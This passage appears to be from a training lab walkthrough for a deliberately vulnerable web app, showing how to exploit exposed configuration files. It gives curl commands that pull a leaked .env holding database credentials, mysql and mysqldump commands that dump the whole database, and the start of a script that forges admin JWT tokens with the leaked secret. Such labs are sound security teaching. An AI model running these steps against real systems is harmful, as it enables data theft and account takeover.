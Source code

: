 The application exposes sensitive configuration information through publicly accessible endpoints, revealing database credentials, API keys, internal paths, and system architecture.

### 🔓 Step-by-Step Exploitation

#### Step 1: Discover Configuration Exposure

```bash
# Test for common configuration files
curl http://localhost:3000/.env
curl http://localhost:3000/package.json
curl http://localhost:3000/robots.txt
curl http://localhost:3000/sitemap.xml
```

#### Step 2: Extract Environment Variables

```bash
# Access exposed .env endpoint
curl http://localhost:3000/.env
```

**Response:**
```json
{
  "message": "VULNERABILITY: A05 - Security Misconfiguration",
  "description": "Environment file exposed",
  "data": {
    "NODE_ENV": "production",
    "DB_HOST": "db",
    "DB_USER": "wcorp_user",
    "DB_PASSWORD": "wcorp_pass",
    "DB_NAME": "wcorp_db",
    "JWT_SECRET": "jwt_secret_key_for_training"
  }
}
```

✅ **Database credentials and JWT secret exposed!**

#### Step 3: Use Database Credentials

```bash
# Connect to database using exposed credentials
mysql -h localhost -u wcorp_user -pwcorp_pass wcorp_db

# Once connected, dump all data
mysqldump -h localhost -u wcorp_user -pwcorp_pass wcorp_db > database_backup.sql
```

#### Step 4: Forge JWT Tokens

```bash
# Use the exposed JWT secret to create admin tokens
# Create a script to forge tokens

cat > forge_token.js << 'EOF'
const jwt = require('jsonwebtoken');

const secret = 'jwt_secret_key_for_training'; // From .env exposure

const payload = {
  userId: 1,
  username: 'admin',
  role: 'admin'
};

const token = jwt.sign(payload, secret, { expiresIn: '365d' });
```